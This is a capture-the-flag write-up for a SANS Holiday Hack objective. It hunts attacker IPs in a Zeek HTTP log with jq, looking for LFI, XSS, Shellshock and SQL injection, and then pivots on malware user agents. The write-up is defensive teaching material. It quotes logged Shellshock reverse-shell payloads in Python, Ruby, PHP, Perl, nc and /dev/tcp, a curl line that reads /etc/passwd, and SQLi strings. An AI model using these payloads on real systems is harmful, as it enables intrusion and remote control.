



12. Filter Out Poisoned Sources of Weather Data¶
Difficulty: 🎄🎄🎄🎄
📜 Info & Hints¶
Filter Out Poisoned Sources of Weather Data
Use the data supplied in the Zeek JSON logs to identify the IP addresses of attackers poisoning Santa's flight mapping software.
Block the 100 offending sources of information to guide Santa's sleigh through the attack.
Submit the Route ID ("RID") success value that you're given.
For hints on achieving this objective, please visit the Sleigh Shop and talk with Wunorse Openslae.
🧝🏻♂️ Wunorse Openslae
Hey, you know what? We've got a crisis here.
You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data.
All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data!
I'm so flummoxed I can't even remember how to login!
Hmm... Maybe the Zeek http.log could help us.
I worry about LFI, XSS, and SQLi in the Zeek log - oh my!
And I'd be shocked if there weren't some shell stuff in there too.
I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs.
The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route.
Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
Remember, when looking at JSON data, jq is the tool for you!
Finding Bad in Web Logs
Do you see any LFI, XSS, Shellshock, or SQLi?
🧚🏻 The Tooth Fairy
I’m the Tooth Fairy, the mastermind behind the plot to destroy the holiday season.
I hate how Santa is so beloved, but only works one day per year!
He has all of the resources of the North Pole and the elves to help him too.
I run a solo operation, toiling year-round collecting deciduous bicuspids and more from children.
But I get nowhere near the gratitude that Santa gets. He needs to share his holiday resources with the rest of us!
But, although you found me, you haven’t foiled my plot!
Santa’s sleigh will NOT be able to find its way.
I will get my revenge and respect!
I want my own holiday, National Tooth Fairy Day, to be the most popular holiday on the calendar!!!
🧝🏻♂️ Krampus
But there’s still time! Solve the final challenge in your badge by blocking the bad IPs at srf.elfu.org and save the holiday season!
Block the 100 offending sources of information & Submit ("RID") success value
⚡️ Solution¶
Getting the logins to the SRF portal¶
As we know from objective #10 : 
The default login credentials should be changed on startup and can be found in the readme in the ElfU Research Labs git repository. Any git repository start with README.md we can test at the url directly.
or we can search the logs for event without status_code 404 which means not found
cat http.log | jq '.[] | select((.uri | contains("README")) and (.status_code != 404)) | .uri '
Grab it from the portal: https://srf.elfu.org/README.md
# Sled-O-Matic - Sleigh Route Finder Web API ### Installation `sudo apt install python3-pip` `sudo python3 -m pip install -r requirements.txt` #### Running: `python3 ./srfweb.py` #### Logging in: You can login using the default admin pass: `admin 924158F9522B3744F5FCD4D10FAC4356` However, it's recommended to change this in the sqlite db to something custom.
Understanding the API & the logs¶
-
Log to the SRF portal using the credentials we found:
username:
admin
password:924158F9522B3744F5FCD4D10FAC4356The SLEIGH ROUTE FINDER API portal

-
Open the API Docs
To Update The Measurements For a Specific Global Elf Weather Station: HTTP POST REQUEST TO -http://srf.elfu.org/api/measurements HTTP HEADER OF-Content-Type: application/json API Request All StationIDS: HTTP GET REQUEST -http://srf.elfu.org/api/stationsAPI Request All Stations Weather Data: HTTP GET REQUEST -http://srf.elfu.org/api/weather?station_id=* API Request One Stations Weather Data: HTTP GET REQUEST -http://srf.elfu.org/api/weather?station_id=abcd1234API Request Multiple Specific StationsWeatherData: HTTP GET REQUEST -http://srf.elfu.org/api/weather?station_id=abcd1234,abcd1235
It's important to understand the correct url/requests for api.
-
Look at first entry structure:3 to understand the content of each object in the logs.1
cat http.log | jq '.[0]'
{ "ts": "2019-10-05T06:50:42-0800", "uid": "ClRV8h1vYKWXN1G5ke", "id.orig_h": "238.27.231.56", "id.orig_p": 60677, "id.resp_h": "10.20.3.80", "id.resp_p": 80, "trans_depth": 1, "method": "GET", "host": "srf.elfu.org", "uri": "/14.10/Google/", "referrer": "-", "version": "1.0", "user_agent": "Mozilla/5.0 (Windows; U; Windows NT 5.1; fr; rv:1.9.2b4) Gecko/20091124 Firefox/3.6b4 (.NET CLR 3.5.30729)", "origin": "-", "request_body_len": 0, "response_body_len": 232, "status_code": 404, "status_msg": "Not Found", "info_code": "-", "info_msg": "-", "tags": "(empty)", "username": "-", "password": "-", "proxied": "-", "orig_fuids": "-", "orig_filenames": "-", "orig_mime_types": "-", "resp_fuids": "FUPWLQXTNsTNvf33", "resp_filenames": "-", "resp_mime_types": "text/html" }
We have interesting parameters
host,uri,user_agent,status_code,username.and we can search for unique values in each, for example:
cat http.log | jq '.[] | .username ' | sort | uniq
"' or '1=1" "(empty)" "-" "-r nessus" "6666" "Admin" "admin" "comcomcom" "q1ki9" "root" "servlet" "support"
This well help us searching and pivoting for each attack in the next step.
Searching for attacks¶
-
Local File Inclusion (LFI): The File Inclusion vulnerability allows an attacker to include a file, that are already locally present on the server. And it's occurs when paths passed to "include" statements are not properly sanitized.2
Typical proof-of-concept would be to load
passwdfile.So we will to search for
..,/etc,||,passinuri.cat http.log | jq '.[] | select ( .uri | contains("..","/etc","||","pass") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
.["id.orig_h"]return source ipsortsort resultuniqremove duplicates&>> detected_ips.csvadd result to csv file -
Cross-Site Scripting (XSS): Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.
Since the XSS attacks may be conducted without using
<script></script>tags. Other tags will do exactly the same thing:2<body onload=alert('test1')>So we will to search for
<inuriandhost.cat http.log | jq '.[] | select ( .uri | contains("<") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
cat http.log | jq '.[] | select ( .host | contains("<") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
-
Shellshock: Shellshock is a family of security bugs[2] in the Unix Bash shell3, that use the User-Agent string to attack.
Example of Execution
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status > passwdSo we will to search for the string
() { :; };inuri,host,user_agentcat http.log | jq '.[] | select ( .user_agent | contains("() { :; };") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
-
SQLi: A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application.2
We will search for
/*,**,UNION,'inuri,host,username,user_agentcat http.log | jq '.[] | select ( .uri | contains("/*","**"," UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
cat http.log | jq '.[] | select ( .host | contains("/*","**"," UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
cat http.log | jq '.[] | select ( .username | contains("/*","**"," UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
cat http.log | jq '.[] | select ( .user_agent | contains("/*","**"," UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv
-
Connections with
status_msgis400 Bad Request:if we lookup unique the status message for the requests
cat http.log | jq '.[] | select( .status_msg !="-") | .status_code, .status_msg ' | sort | uniq
"Bad Request" "Not Found" "Not Modified" "OK"
We will see interesting
Bad Requestmsg which means The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid request message framing, or deceptive request routing)|5.Let's add the ips from the requests with
400 Bad Requestcat http.log | jq '.[] | select((.status_code == 400)) | .["id.orig_h"]' | sort | uniq &>> detected_ips.csv
All Commands at once:
cat http.log | jq '.[] | select ( .uri | contains("..","/etc","||","pass") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .uri | contains("<") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .host | contains("<") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .user_agent | contains("() { :; };") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .username | contains("/*","**","UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .uri | contains("/*","**","UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .host | contains("/*","**","UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select ( .user_agent | contains("/*","**"," UNION","'"'"'") ) | .["id.orig_h"] ' | sort | uniq &>> detected_ips.csv cat http.log | jq '.[] | select((.status_code == 400)) | .["id.orig_h"]' | sort | uniq &>> detected_ips.csv
To remove all ips duplicates and double quotes ":
cat detected_ips.csv | sort | uniq | tr -d '"' > detected_ips_clean.csv
Also use wc -l command to count the ips.
cat detected_ips_clean.csv | wc -l
Unique malicious ip list 81
0.216.249.31,1.185.21.112,10.155.246.29,102.143.16.184,106.132.195.153,106.93.213.219,111.81.145.191,116.116.98.205,118.196.230.170,121.7.186.163,123.127.233.97,129.121.121.48,13.39.153.254,131.186.145.73,132.45.187.177,135.203.243.43,135.32.99.116,150.45.133.97,150.50.77.238,155.129.97.35,168.66.108.62,169.242.54.5,173.37.160.150,180.57.20.247,186.28.46.179,187.178.169.123,19.235.69.221,190.245.228.38,193.228.194.36,194.143.151.224,2.230.60.70,2.240.116.254,200.75.228.240,211.229.3.254,220.132.33.81,223.149.180.133,225.191.220.138,227.110.45.126,229.133.163.235,229.229.189.246,23.49.177.78,23.79.123.99,230.246.50.221,233.74.78.199,238.143.78.114,249.34.9.16,25.80.197.172,250.51.219.47,253.182.102.55,254.140.181.172,27.88.56.114,28.169.41.122,31.254.228.4,32.168.17.54,33.132.98.193,34.129.179.28,42.103.246.250,42.191.112.181,44.74.106.131,45.239.232.245,48.66.193.176,49.161.8.58,52.39.201.107,56.5.47.137,6.144.27.227,61.110.82.125,65.153.114.120,68.115.251.76,69.221.145.150,72.183.132.206,75.215.214.65,75.73.228.192,79.198.89.109,80.244.147.207,81.14.204.154,83.0.8.119,84.147.231.129,84.185.44.166,9.206.212.33,9.95.128.208,95.166.116.45
We have 81 unique malicious ip in our blacklist , let's find a pivot point to find the rest.
Pivoting on suspicious UserAgents of detected ips¶
Get all UserAgents for ips we have collected
for ips in $(cat detected_ips_clean.csv ) do
cat http.log | jq --arg ip $ips '.[] | select(
.["id.orig_h"] ==$ip
) | .user_agent ' | sort | uniq | tr -d '"' &>> suspicious_ua.txt
tr -d '"'removes"from each ip.
--argThis option passes a value$ipsto the jq program as a predefined variable$ip.
List of suspicious UserAgents based on ips collected
1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1
Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25
Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR 1.1.4322)
Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)
1' UNION SELECT '1','2','automatedscanning','1233627891','5'/*
Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)
1' UNION SELECT 1,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x6e,0x69,0x6e,0x67,,3,4,5,6,7,8 -- '
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12
Wget/1.9+cvs-stable (Red Hat modified)
1' UNION SELECT -1,'autosc','test','O:8:\\\stdClass\\\:3:{s:3:\\\mod\\\;s:15:\\\resourcesmodule\\\;s:3:\\\src\\\;s:20:\\\@random41940ceb78dbb\\\;s:3:\\\int\\\;s:0:\\\\\\;}',7,0,0,0,0,0,0 /*
Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.4.15451
1' UNION/**/SELECT/**/994320606,1,1,1,1,1,1,1/*&blogId=1
CholTBAgent
() { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\150.45.133.97\,54611));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\/bin/sh\,\-i\]);'
Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5
Mozilla/5.0 (X11; U; Linux i686 (x86_64); en-US; rv:1.9b2) Gecko/2007121016 Firefox/3.0b2
Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36
Mozilla/5.0 (X11; U; Linux x86_64; de; rv:1.9.0.18) Gecko/2010021501 Ubuntu/9.04 (jaunty) Firefox/3.0.18
1' UNION SELECT 1,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x6e,0x69,0x6e,0x67,,3,4,5,6,7,8 -- '
Mozilla/5.0 (Windows; U; Windows NT 6.1; fr; rv:1.9.2.10) Gecko/20100914 Firefox/3.6.10 (.NET CLR 3.5.30729)
1' UNION SELECT 1729540636,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x65,0x72, --
Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)
Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )
Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9b3) Gecko/2008020514 Opera 9.5
Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.2b5) Gecko/20091204 Firefox/3.6b5
Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)
Mozilla/5.0 WinInet
Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36
Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5
() { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'
Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)
() { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open(\227.110.45.126\,43870).to_i;exec sprintf(\/bin/sh -i <&%d >&%d 2>&%d\,f,f,f)'
Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)
() { :; }; /usr/bin/php -r '$sock=fsockopen(\229.229.189.246\,62570);exec(\/bin/sh -i <&3 >&3 2>&3\);'
Mozilla/4.0 (compatible MSIE 5.0;Windows_98)
Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.0.6pre) Gecko/2008121605 Firefox/3.0.6pre
Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.
Mozilla/5.0 (Windows; U; Windows NT 6.0; ru-RU) AppleWebKit/528.16 (KHTML, like Gecko) Version/4.0 Safari/528.16
Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Mozilla/5.0 (X11; Linux i686) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.100 Safari/534.30
Opera/6.05 (Windows 2000; U) [oc]
Opera/8.81 (Windows-NT 6.1; U; en)
Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22
Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0
Mozilla/5.0 (Windows NT 10.0;Win64;x64)
() { :; }; /bin/bash -i >& /dev/tcp/31.254.228.4/48051 0>&1
Mozilla/4.0 (compatible; MSIE 4.01; Windows 98; DigExt)
Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15
Mozilla/5.0 (Windows NT 5.1 ; v.)
Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)
Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13
RookIE/1.0
Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)
Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N
Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/530.5 (KHTML, like Gecko) Chrome/2.0.172.43 Safari/530.5
HttpBrowser/1.0
Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.2) Gecko/2008092318 Fedora/3.0.2-1.fc9 Firefox/3.0.2
Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1
Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1
1' UNION SELECT 1,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x6e,0x69,0x6e,0x67,,3,4,5,6,7,8 -- '
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)
Opera/9.23 (Windows NT 5.0; U; en)
Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.14) Gecko/20080419 Ubuntu/8.04 (hardy) Firefox/2.0.0.12 MEGAUPLOAD 1.0
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)
Mozilla/4.0 (compatible; MSIE 5.13; Mac_PowerPC)
Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30
1' UNION SELECT 1,1409605378,1,1,1,1,1,1,1,1/*&blogId=1
() { :; }; /usr/bin/perl -e 'use Socket;$i=\83.0.8.119\;$p=57432;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\tcp\));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\>&S\);open(STDOUT,\>&S\);open(STDERR,\>&S\);exec(\/bin/sh -i\);};'
Mozilla/4.0 (compatible; Metasploit RSPEC)
Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)
Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1
Mozilla/5.0 (Windows; U; Windows NT 5.1; en-CA) AppleWebKit/534.13 (KHTML like Gecko) Chrome/9.0.597.98 Safari/534.13
Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19
We can select the known suspicious user-agents4 from the output to pivot on:
-
Rookie
An Info Stealer designed to extract user account information such as logins and passwords and send them to a remote server. The HTTP communication is done using an uncommon User Agent called
RookIE/1.0.6RookIE/1.0
-
HttpBrowser RAT
Backdoor is malware that has been used by several threat groups with notable for HTTPS communications with the
HttpBrowser/1.0User-Agent. 7HttpBrowser/1.0
-
Dyre / Upatre
Dyreza is able to intercept SSL traffic in Internet Explorer, Firefox and Chrome by hooking the browser via several API functions.8
Wget/1.9+cvs-stable (Red Hat modified)
-
Metasploit framework which is a widely used penetration testing tool and used also for hacking.
Metasploit User Agent Strings:
Mozilla/4.0 (compatible; Metasploit RSPEC) Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13and we have others two with typing errors or space missing
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1) Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1) Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0) Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6. Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0) Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)
-
W32/Kazy A trojan is a type of malware that performs activities without the user’s knowledge.
These activities commonly include establishing remote access connections, capturing keyboard input, collecting system information, downloading/uploading files, dropping other malware into the infected system, performing denial-of-service (DoS) attacks, and running/terminating processes. 9
Mozilla/5.0 (Windows NT 5.1 ; v.)
-
Fun Web Products - Adware applications10
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
-
Adware Toolbar from PeoplePc10
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)
-
Sality botnet
Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729) Opera/8.81 (Windows-NT 6.1; U; en)
-
Malware: Generic Trojan9
Mozilla/5.0 WinInet
-
Malware User Agent 12
CholTBAgent
-
AntiVirXP08, also known as Anti Vir XP 08, AntivirusXP2008 or Antivirus XP 2008, is a rogue anti-spyware program and clone of XP Antivirus.
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)
-
PlugX APT Malware
PlugX is a RAT (Remote Access Trojan) malware family that is around since 2008 and is used as a backdoor to fully control the victim's machine. Once the machine is infected, a cybercriminal can remotely execute several kinds of commands on the affected system.14
Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)
and we have others with typing errors or space missing
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR 1.1.4322) Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0) Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )
-
Fareit Malware 15
Mozilla/4.0 (compatible MSIE 5.0;Windows_98)
and we have others with typing errors or space missing
Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)
-
Zebrocy malware 15
Mozilla/5.0 (Windows NT 10.0;Win64;x64)
-
Misconfigured UserAgents 11
The correct user-agent should be structured like this
Mozilla/[version] ([system and browser information]) [platform] ([platform details]) [extensions].
From above list we can detect a few misconfigured user-agents:
Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)
MSIEEMozilla/4.0 (compatible; MSIE 6.a; Windows NTS)
Windows NTSMozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)
W1ndowMozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)
500.0Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1
666Also we have a few with space missing
Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)
NT6.0
Create a list with all user agents we will pivot on:
RookIE/1.0
HttpBrowser/1.0
Wget/1.9+cvs-stable (Red Hat modified)
Mozilla/4.0 (compatible; Metasploit RSPEC)
Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N
Mozilla/5.0 (Windows NT 5.1 ; v.)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)
Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)
Opera/8.81 (Windows-NT 6.1; U; en)
Mozilla/5.0 WinInet
CholTBAgent
Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.
Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)
Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)
Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)
Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR 1.1.4322)
